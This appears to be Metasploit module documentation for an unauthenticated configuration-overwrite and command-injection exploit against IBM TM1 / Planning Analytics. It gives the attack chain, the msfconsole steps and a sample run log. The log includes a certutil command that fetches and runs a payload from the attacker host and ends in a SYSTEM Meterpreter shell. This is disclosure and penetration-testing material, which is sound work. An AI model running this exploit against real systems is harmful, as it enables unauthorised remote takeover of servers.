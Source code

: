 ## Vulnerable Application

### Description

This module exploits a vulnerability in IBM TM1 / Planning Analytics that allows an unauthenticated attacker to perform a configuration overwrite.
It starts by querying the Admin server for the available applications, picks one, and then exploits it. You can also provide an application name to bypass this step, and exploit the application directly.
The configuration overwrite is used to change an application server authentication method to "CAM", a proprietary IBM auth method, which is simulated by the exploit.
The exploit then performs a fake authentication as admin, and finally abuses TM1 scripting to perform a command injection as root or SYSTEM.

This module starts by querying the Admin server, which usually runs on port 5498 with SSL enabled, or 5495 without SSL. This can be queried by a normal client without authentication, and with that we retrieve a list of applications, the servers where they are running, the ports where they are running, and if they use SSL or not.

Note that there might be cases where the applications do not run on the same host as the Admin server; however this is expected to be rare. Even in that case, the exploit should work perfectly, as it uses the information from the Admin server to connect to the Application server host, and automatically sets up SSL if needed.

If you know the application name, port and SSL status, you can enter this directly into the exploit, which then will not perform the Admin server query. For this, enter the application port in the `RPORT` option, whether it uses SSL in the `SSL` option, and finally set `APP_NAME` to the application name.

Testing was done on IBM PA 2.0.6 and IBM TM1 10.2.2 on Windows and Linux.

Versions up to and including PA 2.0.8 are vulnerable. It is likely that versions earlier than TM1 10.2.2 are also vulnerable (10.2.2 was released in 2014).

Users are encouraged to share success stories with the module author, Pedro Ribeiro (pedrib@gmail.com) from Agile Information Security. For more information, check the full advisory at https://github.com/pedrib/PoC/blob/master/advisories/IBM/ibm_tm1_rce.md.

### Setup

To obtain the vulnerable application you need an official IBM installer for IBM Planning Analytics or IBM TM1. This exploit works perfectly for both Windows and Linux targets.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: ```use [module path]```
4. Do: ```set srvhost [lhost]```
5. Do: ```set target [0|1]```
6. Do: ```set rhost [rhost]```
7. Do: ```run```
8. You should get a shell.

## Options

### SSL

Whether to use SSL to connect to the Admin / Application server (default true)

### APP_NAME

Application name to use to connect directly, bypassing Admin server query (default unset).

### AUTH_ATTEMPTS

Number of attempts to authentication to the fake CAM server (default 10).

## Scenarios

```
[*] Started reverse TCP handler on 192.168.1.1:4444
[*] 192.168.1.138:5498 - Connecting to admin server and obtaining application data
[+] 192.168.1.138:5498 - Found app GO_New_Stores tcp ip: 192.168.1.138 port: 45557 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app GO_Scorecards tcp ip: 192.168.1.138 port: 54321 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app Planning Sample tcp ip: 192.168.1.138 port: 12345 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app proven_techniques tcp ip: 192.168.1.138 port: 17797 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app SData tcp ip: 192.168.1.138 port: 12346 available: 1 SSL: 1
[*] 192.168.1.138:5498 - Picked SData as our target, connecting...
[+] 192.168.1.138:5498 - Current auth method is 1, we're good to go!
[*] 192.168.1.138:5498 - Starting up the fake CAM server...
[*] 192.168.1.138:5498 - Using URL: http://192.168.1.1:4466/
[*] 192.168.1.138:5498 - Changing authentication method to 4 (CAM auth)
[*] 192.168.1.138:5498 - Authenticating using CAM Passport and our fake CAM Service...
[+] 192.168.1.138:5498 - CAM: Received first CAM query, responding with account info
[+] 192.168.1.138:5498 - CAM: Received second CAM query, responding with session info
[+] 192.168.1.138:5498 - CAM: Received third CAM query, responding with random garbage
[*] 192.168.1.138:5498 - Creating our Process object...
[*] 192.168.1.138:5498 - Adding command :"certutil.exe -urlcache -split -f http://192.168.1.1:4466/ C:\Windows\Temp\KWFUmh.exe" to the Process object...
[*] 192.168.1.138:5498 - Adding command :"C:\Windows\Temp\KWFUmh.exe" to the Process object...
[*] 192.168.1.138:5498 - Registering the Process object under the name 'cRKnsLzFFwDI'
[*] 192.168.1.138:5498 - Now let's execute the Process object!
[+] 192.168.1.138:5498 - CAM: Received request for payload executable, shell incoming!
[+] 192.168.1.138:5498 - CAM: Received request for payload executable, shell incoming!
[*] Sending stage (180291 bytes) to 192.168.1.138
[*] Meterpreter session 6 opened (192.168.1.1:4444 -> 192.168.1.138:49306) at 2020-03-27 12:24:55 +0700
[*] 192.168.1.138:5498 - Restoring original authentication method 1
[*] 192.168.1.138:5498 - Server stopped.
[!] 192.168.1.138:5498 - This exploit may require manual cleanup of 'C:\Windows\Temp\KWFUmh.exe' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...
```
